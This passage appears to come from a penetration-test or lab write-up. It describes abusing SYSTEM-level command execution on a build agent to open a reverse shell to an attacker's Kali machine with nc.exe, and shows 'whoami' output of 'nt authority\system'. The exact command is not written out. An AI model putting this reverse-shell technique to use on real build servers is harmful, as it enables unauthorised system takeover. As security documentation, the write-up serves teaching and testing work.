Since I can execute commands as SYSTEM here, I can use nc.exe to get a reverse shell back to my kali. The image below shows the final build script being executed. 



When the multi line script executes, it sends back a SYSTEM shell.


```sh
W:\agents\agent11\_work\8\s>
whoami
nt authority\system
```

